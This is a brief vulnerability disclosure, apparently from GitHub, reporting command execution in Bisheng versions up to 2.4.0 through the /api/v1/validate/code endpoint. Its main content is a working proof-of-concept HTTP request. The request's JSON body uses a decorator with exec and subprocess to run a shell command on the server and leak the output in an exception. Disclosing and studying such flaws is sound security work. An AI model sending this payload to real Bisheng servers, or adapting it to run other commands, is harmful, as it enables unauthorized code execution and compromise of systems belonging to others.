

# bisheng =2.4.0 has a command execution vulnerability

## Supplier

https://www.bisheng.ai/

## Description

Bisheng has command execution vulnerabilities in the /api/v1/validate/code interface

## POC



```
POST /api/v1/validate/code HTTP/1.1
Host: 127.0.0.1:3001
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Content-Length: 106

{"code": "@exec('raise Exception(import("subprocess").check_output(["id"]))')\ndef foo():\n pass"}
```


## version

Vulnerabilities affect versions

bisheng<=V2.4.0